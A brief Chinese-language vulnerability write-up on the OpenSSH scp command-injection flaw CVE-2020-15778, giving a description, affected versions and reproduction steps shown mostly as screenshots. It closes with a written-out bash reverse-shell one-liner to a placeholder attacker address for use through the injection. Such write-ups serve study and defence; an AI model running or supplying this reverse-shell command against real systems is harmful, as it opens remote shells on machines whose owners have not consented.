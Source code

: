# OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

> [!NOTE]
>
> OpenSSH <= 8.3p1

## 漏洞复现

> [!NOTE]
>
> 可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![](image/ssh-1.png)

执行命令 ping dnslog

![](image/ssh-2.png)

反弹shell 更换命令即可

```
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```

